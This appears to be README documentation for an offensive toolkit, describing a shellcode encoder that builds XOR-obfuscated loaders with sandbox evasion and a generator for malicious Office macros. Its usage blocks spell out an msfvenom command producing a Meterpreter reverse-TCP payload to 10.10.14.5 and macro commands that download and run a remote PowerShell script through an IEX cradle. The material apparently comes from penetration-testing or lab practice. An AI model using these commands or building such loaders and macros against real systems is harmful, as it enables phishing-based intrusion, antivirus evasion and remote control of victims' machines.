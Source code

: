 
### shellcode_encoder.py
Shellcode encoding and loader generation.

**Usage:**
```bash
# Generate shellcode first
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.14.5 LPORT=4444 -f raw > shellcode.bin

# Encode and create loaders
python3 shellcode_encoder.py shellcode.bin
```

**Generates:**
- C# shellcode loader
- Python shellcode loader
- XOR encoded shellcode
- Sandbox evasion checks

**Features:**
- Random XOR key generation
- Memory allocation and execution
- Evasion techniques
- Multiple loader formats

---

### macro_generator.py
Malicious Office macro generator.

**Usage:**
```bash
# URL-based payload delivery
python3 macro_generator.py --url http://10.10.14.5/payload.ps1

# Direct command execution
python3 macro_generator.py --cmd "powershell -c IEX(...)"
```

**Generates:**
- Download and execute macros
- PowerShell cradle macros
- Direct execution macros
- WMI-based execution macros

**Features:**
- Variable randomization
- Multiple execution methods
- Base64 encoding
- Sandbox evasion

**Formats:**
- .docm (Word with macros)
- .xlsm (Excel with macros)
- VBA code for manual insertion

---